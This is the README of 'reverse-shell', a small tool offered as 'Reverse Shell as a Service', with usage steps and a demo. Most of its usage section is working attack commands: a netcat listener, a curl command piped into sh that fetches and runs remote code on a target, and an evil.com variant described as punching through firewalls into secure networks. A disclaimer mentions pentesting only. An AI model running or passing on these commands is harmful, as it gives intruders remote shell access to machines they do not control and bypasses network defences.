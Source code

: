 # reverse-shell

> Reverse Shell as a Service

[![Build Status](https://travis-ci.org/lukechilds/reverse-shell.svg?branch=master)](https://travis-ci.org/lukechilds/reverse-shell)
[![Coverage Status](https://coveralls.io/repos/github/lukechilds/reverse-shell/badge.svg?branch=master)](https://coveralls.io/github/lukechilds/reverse-shell?branch=master)
[![npm](https://img.shields.io/npm/v/reverse-shell.svg)](https://www.npmjs.com/package/reverse-shell)

Easy to remember reverse shell that should work on most Unix-like systems.

## Usage

### 1. Listen for connection

On your machine, open up a port and listen on it. You can do this easily with netcat.

```shell
nc -l 1337
```
### 2. Execute reverse shell on target

On the target machine, pipe the output of https://shell.now.sh/yourip:port into sh.

```shell
curl https://shell.now.sh/192.168.0.69:1337 | sh
```

Go back to your machine, you should now have a shell prompt.

### 3. Don't be a dick

This is meant to be used for pentesting or helping coworkers understand why they should always lock their computers. Please don't use this for anything malicious.

## Demo

<img src="https://i.imgur.com/DRqTcLq.gif" width="728">

## Tip

You can use a hostname or an IP. Because this is a reverse connection it can punch through firewalls and connect to the internet.

e.g You could listen for connections on a server at evil.com and get a reverse shell from inside a secure network with:

```shell
curl https://shell.now.sh/evil.com:1337 | sh
```

## License

MIT © Luke Childs
